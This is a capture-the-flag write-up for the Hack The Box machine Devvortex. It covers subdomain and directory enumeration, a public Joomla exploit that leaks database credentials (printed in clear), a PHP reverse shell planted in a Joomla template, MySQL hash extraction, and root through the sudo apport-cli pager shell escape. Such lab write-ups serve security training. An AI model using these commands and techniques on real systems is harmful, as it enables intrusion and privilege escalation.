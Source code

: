 ![](https://i.imgur.com/FGhMuy7.png)

# Initial Enumeration 

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sCV 10.10.11.242 -T5

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.75 seconds
```


![](https://i.imgur.com/PoafhCH.png)

![](https://i.imgur.com/WPZsW9U.png)


```bash
ffuf -c -w /usr/share/dnsrecon/subdomains-top1mil-5000.txt -u http://devvortex.htb/ -H "Host: FUZZ.devvortex.htb" -fw 5338 | grep --color=auto 200
```
![](https://i.imgur.com/yZIes2W.png)

![](https://i.imgur.com/IMRWJTc.png)


![](https://i.imgur.com/Wd4ZOhC.png)


```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -u http://dev.devvortex.htb/
```

![](https://i.imgur.com/mPPlFPz.png)

![](https://i.imgur.com/4ZUiK2l.png)

![](https://i.imgur.com/IyKuaVy.png)

 I learned that there is a great tool for enumerating Joomla named “droopscan.” So I downloaded the tool onto my attack machine and fired it at the target.
 
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
./droopescan scan joomla --url http://dev.devvortex.htb/
```

![](https://i.imgur.com/KSsLhKc.png)

![](https://i.imgur.com/DLW4pT9.png)

upon searching for exploit i found a useful GitHub repo for an exploit written in ruby
![](https://i.imgur.com/B6u3XCf.png)

after downloading the exploit i install needed requirements and run the exploit and found a user and password

```rb
gem install httpx docopt paint
ruby exploit.rb http://dev.devvortex.htb
```

![](https://i.imgur.com/9vQyS2y.png)

```
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
```

luckyly the creds works for the `joomla` admin login page

![](https://i.imgur.com/ukD8bZa.png)

 going to the template page and checking the `error.php` file i fill i should be able to get a reverse shell connection to myself
 
 ![](https://i.imgur.com/Um8F3A2.png)
 
i edited to code by adding my own malicious payload to get a reverse shell (pentestmonkey's php RCE payload)

![](https://i.imgur.com/pS5Innh.png)

then i start up my listener then visit the direct URL to the error.php file of the edited template to triger the code and get a shell

![](https://i.imgur.com/v7LXlsK.png)

but the user i got a shell as isn't privilege enough to get the first flag

![](https://i.imgur.com/6CzCXob.png)

from the ruby exploit earlier i noticed the credentials is for a mysql server

![](https://i.imgur.com/jefSmyk.png)

so i decide to connect to it with the creds

```
mysql -ulewis -pP4ntherg0t1n5r3c0n##
show Tables;
use joomla;
SELECT * FROM sd4fg_users;
```

i found logans hash

![](https://i.imgur.com/453MUIX.png)

i search for the hash type

![](https://i.imgur.com/WS9nYnC.png)

![](https://i.imgur.com/PrwVg0r.png)

i used the logan creds against the open ssh port and found the user flag

![](https://i.imgur.com/wYUAr5W.png)

# privilege escalation
![](https://i.imgur.com/2yqNlfe.png)

### About this binary
A privilege escalation attack was found in apport-cli 2.26.0 and earlier which is similar to CVE-2023-26604. If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege. It is extremely unlikely that a system administrator would configure sudo to allow unprivileged users to perform this class of exploit.


![](https://i.imgur.com/AmqZJK9.png)

```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue...  
..dpkg-query: no packages found matching xorg
...........

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v
```

after typing the letter `v` a vim editing interface will showup and here is fun part 
because we are able to run the binary as root (`sudo`) and there is a command interaction section i vim so running `!/bin/bash` will spawn a `root` shell

![](https://i.imgur.com/BVQstCu.png)

click enter and find root flag

![](https://i.imgur.com/3SnAu0v.png)
